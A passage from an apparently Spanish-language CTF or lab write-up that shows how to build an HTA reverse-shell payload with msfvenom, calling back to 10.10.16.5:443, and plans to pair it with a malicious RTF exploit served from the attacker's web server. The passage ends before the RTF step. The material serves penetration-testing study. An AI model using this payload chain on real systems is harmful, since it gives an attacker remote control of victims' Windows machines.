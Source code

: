<figure><img src="../../../.gitbook/assets/3346_vmware_Du1GjNnqI8.png" alt=""><figcaption></figcaption></figure>

Creamos un payload de **reverse shell** con extensión **HTA** porque este tipo de archivo se ejecuta directamente en Windows usando **mshta.exe**. Esto nos permite aprovechar la vulnerabilidad del archivo RTF para que cargue y ejecute el HTA malicioso fácilmente. Además, el HTA puede lanzar comandos como PowerShell, que usamos para establecer la conexión de reverse shell.

{% code overflow="wrap" %}
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.5 LPORT=443 -f hta-psh -o pawned.hta
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/3347_vmware_Hij26PLEiI.png" alt=""><figcaption></figcaption></figure>

Procederemos a realizar el archivo RTF malicioso con el exploit del GitHub descargado, procederemos a generar un archivo llamado "_pawned.rtf_" indicándole que ejecute el archivo HTA que dejaremos disponible a través de un servidor web desde nuestro equipo.
